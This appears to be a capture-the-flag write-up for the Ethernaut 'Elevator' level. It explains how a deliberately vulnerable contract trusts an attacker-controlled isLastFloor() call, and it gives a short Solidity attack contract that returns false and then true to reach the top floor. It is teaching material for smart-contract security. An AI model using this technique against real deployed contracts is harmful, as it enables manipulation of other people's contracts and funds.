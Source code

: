# Level 11: [Elevator](https://ethernaut.openzeppelin.com/level/0x4A151908Da311601D967a6fB9f8cFa5A3E88a251)

## Level objectives:
- Reach the top floor of the contract.

## Analysis
- The Elevator contract contains a function `goTo(uint _floor)` which let's you go to a certain
floor.
- The function is expected to be called from a contract the implements the `Building` interface.
```
Building building = Building(msg.sender);
```
- `Elevator` will only send you to a non-last floor, checked by:
```
if (! building.isLastFloor(_floor)) {...}
```
- Since we control the `Building` contract (the msg.sender), we can implement the `isLastFloor()` so
that we can make it always returns false.

- The second part is to set the variable `top` to true (as that signifies if we have reached the top floor);
- But the variable top is being set only inside the if block. The if-block requires that `isLastFloor()` returns
false.
- But these are not object props that can't change. It's an external function call.
- In our `isLastFloor()` function, we check if the contract's been called before, then we return
true. 
## Code:
```sol
//SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface Elevator {
    function goTo(uint _floor) external;
}

contract Building {

    uint private called = 0;

    function attack(address _victim) public {
        Elevator victim = Elevator(_victim);
        victim.goTo(10);
    }


    function isLastFloor(uint _floor) external returns (bool) {
        if (called == 0) {
            called++;
            return false;
        }
        return true;
    }
}
```
